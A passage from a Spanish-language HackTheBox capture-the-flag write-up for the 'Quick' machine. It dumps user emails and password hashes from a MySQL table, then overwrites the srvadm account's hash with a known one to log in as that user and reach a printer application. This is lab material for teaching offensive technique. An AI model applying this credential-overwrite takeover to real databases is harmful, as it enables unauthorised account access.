 ```sql
mysql> describe users;
+----------+---------------+------+-----+---------+-------+
| Field    | Type          | Null | Key | Default | Extra |
+----------+---------------+------+-----+---------+-------+
| name     | varchar(100)  | YES  |     | NULL    |       |
| email    | varchar(100)  | YES  |     | NULL    |       |
| password | varchar(1000) | YES  |     | NULL    |       |
+----------+---------------+------+-----+---------+-------+
3 rows in set (0.00 sec)

mysql> select email, password from users;
+------------------+----------------------------------+
| email            | password                         |
+------------------+----------------------------------+
| elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| srvadm@quick.htb | e626d51f8fbfd1124fdea88396c35d05 |
+------------------+----------------------------------+
2 rows in set (0.00 sec)
```

Probamos a tratar de crackear los hashes pero no nos resulta posible, pero debemos recordar que al ser el usuario `db_adm`, podemos tener algunos privilegios entre ellos el de modificar las credenciales. 

Para ello como ya contamos con la password de `elisa`, vamos a modificar a tratar de modificar la password del usuario `srvadm`, de tal modo que sea la misma.

```sql
mysql> update users set password="c6c35ae1f3cb19438e0199cfa72a9d9d" where email="srvadm@quick.htb";
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql>
```

Nos conectamos exitosamente con las nuevas credenciales `srvadm@quick.htb:Quick4cc3$$` y ganamos acceso a una aplicación de impresoras.

![](/assets/images/HTB/htb-writeup-Quick/quick15.PNG)
